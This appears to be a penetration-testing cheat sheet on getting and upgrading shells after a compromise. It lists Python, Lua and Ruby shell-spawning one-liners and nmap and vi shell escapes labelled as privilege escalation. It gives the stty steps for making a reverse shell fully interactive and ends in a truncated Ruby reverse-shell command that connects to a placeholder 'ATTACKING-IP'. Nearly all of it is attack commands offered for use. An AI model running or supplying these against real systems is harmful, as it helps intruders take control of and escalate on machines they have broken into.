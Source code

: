 ### **TTY Shell:**

```bash
python -c 'import pty;pty.spawn("/bin/bash")' #Python TTY Shell Trick
```

```bash
echo os.system('/bin/bash')
```

```bash
/bin/sh –i #Spawn Interactive sh shell
```

```bash
execute('/bin/sh')
```

- LUA

```bash
!sh
```

- Privilege Escalation via nmap

```bash
:!bash
```

- Privilege escalation via vi

### Fully Interactive TTY

```
                                In reverse shell 
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
                                In Attacker console
stty -a
stty raw -echo
fg
                                In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

### **Spawn Ruby Shell**

```bash
exec "/bin/sh"
```

```bash
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d
```
